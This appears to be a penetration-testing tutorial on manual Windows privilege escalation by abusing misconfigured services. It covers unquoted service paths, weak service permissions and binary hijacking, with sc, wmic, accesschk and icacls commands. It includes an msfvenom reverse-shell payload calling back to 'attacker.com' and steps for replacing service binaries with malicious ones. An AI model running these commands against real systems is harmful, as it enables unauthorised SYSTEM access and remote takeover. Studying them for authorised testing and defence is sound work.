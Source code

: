 ### **Manual Windows Privilege Escalation Techniques**

#### **Service Exploitation**

**What Windows service exploitation involves:** Exploiting misconfigured Windows services to gain elevated privileges. Services run with specific privilege levels and can be abused if improperly configured.

**Why service exploitation is crucial:** Windows services are common privilege escalation vectors. Many services run as SYSTEM, providing highest privilege level.

```bash
# Service enumeration and analysis
sc query                                     # List all services
sc qc "service_name"                         # Query service configuration
sc query state= all                          # Query all services regardless of state
wmic service list brief                      # Alternative service listing
wmic service list full                       # Detailed service information

# Identify vulnerable services
# 1. Unquoted Service Paths
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
# Look for services with unquoted paths containing spaces

# Example vulnerable service path:
# C:\Program Files\Vulnerable Service\service.exe
# Windows searches for executables in this order:
# C:\Program.exe
# C:\Program Files\Vulnerable.exe
# C:\Program Files\Vulnerable Service\service.exe

# Exploitation of unquoted service path:
# Create malicious executable at higher priority location
msfvenom -p windows/shell_reverse_tcp LHOST=attacker.com LPORT=4444 -f exe -o Program.exe
# Place in C:\ directory
# Restart service or reboot system

# 2. Weak Service Permissions
# Check service permissions with accesschk.exe (Sysinternals)
accesschk.exe -uwcqv "Authenticated Users" *
accesschk.exe -uwcqv "Everyone" *
accesschk.exe -uwcqv "Users" *

# If service allows modification by current user:
sc config "vulnerable_service" binpath= "C:\temp\shell.exe"
sc start "vulnerable_service"

# 3. Service Binary Hijacking
# Check if service binary is writable
icacls "C:\Program Files\Service\service.exe"
# If binary is writable, replace with malicious version

# Backup original binary
copy "C:\Program Files\Service\service.exe" "C:\temp\service_backup.exe"
# Replace with malicious binary
copy "C:\temp\malicious.exe" "C:\Program Files\Service\service.exe"
# Restart service
sc stop "service_name"
sc start "service_name"

# 4. DLL Hijacking
# Check for missing DLLs that services load
# Use Process Monitor (procmon) to identify missing DLLs
```